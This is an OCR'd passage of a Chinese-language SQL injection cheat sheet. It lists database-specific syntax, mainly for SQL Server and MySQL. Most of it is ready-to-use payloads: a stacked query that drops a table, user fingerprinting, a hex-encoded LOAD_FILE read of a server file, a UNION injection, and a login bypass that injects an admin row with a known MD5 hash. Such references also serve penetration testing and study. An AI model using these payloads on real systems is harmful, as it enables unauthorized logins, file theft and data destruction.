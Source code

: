     + SQL Server:
        + 'ab'='a'+'b'
    + Oracle, PostgreSQL:
        + 'ab'='a'||'b'

* 堆叠查询
    + ; {S}

    > SELECT * FROM members; DROP member\-\-

* if语句
    + IF(condition, true-part, false-part) {M}

    > SELECT IF(1=1,'true','false')

    + IF condition true-part ELSE false-part {S}

    > IF (1=1) SELECT 'true' ELSE SELECT 'false'

    + attack sample

    > if ((select user)='sa' OR (select user)='dbo') select 1 else select 1/0 {S}

* 整数的使用
    + 0xHEXNUMBER {SM}
        + SELECT CHAR(0x66) {S}
        + SELECT 0x5045 {M} \-\-这不是整数而是16进制串
        + SELECT 0x50+0x45 {M} \-\-现在是整数了

* 没有引号的字符串
    + CHAR {SM}
    + CONCAT {M}

    > SELECT CONCAT(CHAR(75),CHAR(76)) => 'KL'

    + 0x457578 {M} \-\-16进制字符串
    + attack sample

    > SELECT LOAD_FILE(0x633A5C626F6F742E696E69) {M} => 'c:\bot.ini'

* 字符串Modification
    + ASCII() {SMP}
    + CHAR() {SM}

### 2. UNION注入

* sample

    > ' union select 1, 'anotheruser', 'not matter', 1\-\-

* 语言处理
    + Hex() {M}

* 绕过MD5哈希检查 {MSP}

    username:admin

    password:1234

    > ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
